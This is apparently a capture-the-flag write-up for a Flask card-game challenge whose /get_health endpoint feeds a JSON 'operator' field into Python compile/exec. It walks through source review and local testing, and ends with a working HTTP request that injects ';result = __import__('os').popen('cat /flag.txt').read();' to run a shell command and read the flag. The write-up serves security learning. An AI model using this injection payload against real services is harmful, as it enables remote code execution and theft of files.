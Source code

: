 # Web Evaluation Check

{% file src="../../../.gitbook/assets/web_evaluation_deck.zip" %}
Challenge source code
{% endfile %}

## Application at-a-glance

Application is a card game that allows user to flip 8 cards.

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption><p>Default view</p></figcaption></figure>

When HP bar is depleted game is ended.

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption><p>End screen</p></figcaption></figure>

## Source Code Review

Most interesting file is `routes.py` as this file store all logic used by application.

{% code lineNumbers="true" %}
```python
from flask import Blueprint, render_template, request
from application.util import response

web = Blueprint('web', __name__)
api = Blueprint('api', __name__)

@web.route('/')
def index():
    return render_template('index.html')

@api.route('/get_health', methods=['POST'])
def count():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()

    current_health = data.get('current_health')
    attack_power = data.get('attack_power')
    operator = data.get('operator')
    
    if not current_health or not attack_power or not operator:
        return response('All fields are required!'), 400

    result = {}
    try:
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
        exec(code, result) #exec function allows to execute python code
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500
```
{% endcode %}

First interesting thing is that this application uses `compile` and `exec` function.

Let's analyze the given source code.

{% code lineNumbers="true" %}
```python
    data = request.get_json()

    current_health = data.get('current_health')
    attack_power = data.get('attack_power')
    operator = data.get('operator')
```
{% endcode %}

This piece of code parse `POST` request body and get `current_health`, `attack_power` and `operator` parameters.



Next step is checking if all three variables are set, this ensures that all three parameters are passed in request.

{% code lineNumbers="true" %}
```python
if not current_health or not attack_power or not operator:
        return response('All fields are required!'), 400
```
{% endcode %}

This part is most interesting because of use `exec` function.

{% code lineNumbers="true" %}
```python
 result = {}
    try:
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
        exec(code, result) #exec function allows to execute python code
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500

```
{% endcode %}

But before `exec` call, user input is directly passed to `compile` function and then to `exec`, `current_health` and `attack_power` are casted to int. `Result` variable is returned to the user in reponse

## Vulnerability

As there is no sanitization of user input there is possible RCE (Remote Code Execution) via `exec` function!

## Testing

As I'm not familliar with `compile()/exec()` function combo I copied relevant part of code to new python script for testing.

{% code lineNumbers="true" %}
```python
current_health = '12'
operator = "+"
attack_power = '100'
result = {}

try:
    code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
    exec(code, result)
    print(result.get('result'))
except:
    print('Something Went Wrong!')

```
{% endcode %}

After executing this script number `112` is printed.

`exec` function is capable of executing python code. User controles all three parameters but only `operator` is passed directly to `compile` rest parameters are converted to `int`

One modyfication for testing script is required, because in this state when something is wrong printing `Something Went Wrong!`

To get full traceback `try/except` block can be removed.

So the first try was to set `operator` variable to something easy like `print(1)` and if everything goes well it should print `1`

{% code lineNumbers="true" %}
```python
current_health = '12'
operator = "print(1)"
attack_power = '100'
result = {}
code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
exec(code, result)
print(result.get('result'))
```
{% endcode %}

Unfortunately after executing, script returns `SyntaxError: Invalid Syntax` and result is equal to `result = 12 print(1) 100` so 12 is `current_health` and 100 is `attack_power`&#x20;

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption><p>First try - invalid syntax</p></figcaption></figure>

Python is capable of running inline code when next instruction are separated with semicolon `;`&#x20;

{% code lineNumbers="true" fullWidth="true" %}
```python
current_health = '12'
operator = ";print(1);"
attack_power = '100'
result = {}
code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
exec(code, result)
print(result.get('result'))

```
{% endcode %}

Executing this yeild great success! Script printing additianal `1` in terminal window.

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption><p>RCE!</p></figcaption></figure>

## Exploitation

With proper code execution now we can read the flag.

{% code lineNumbers="true" %}
```http
POST /api/get_health HTTP/1.1
Host: 127.0.0.1:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:1337/
Content-Type: application/json
Origin: http://127.0.0.1:1337
Content-Length: 114
Connection: close
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

{
	"current_health":"43",
	"attack_power":"33",
	"operator":";result = __import__('os').popen('cat /flag.txt').read();"
} 

```
{% endcode %}

After sending this malicious request to application, server returns flag.

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption><p>Flag</p></figcaption></figure>

### Payload explanation

```python
"operator":";result = __import__('os').popen('cat /flag.txt').read();"
```

* semicolons are here for valid python code execution - without `;` signs interpreter throws `invalid syntax` error
* `result =` this overwrites variable that is returned in response to the user
* `__import__` is function called by regular import statement this allows to import modules directly so \
  `__import__('os')` means the same as `import os` but can be done inline and can call functions directly by referencing them as `objects`
* `popen('cat /flag.txt`) this function spawns shell process and executes command `cat /flag.txt`
* `read()` reads output of a process from popen&#x20;
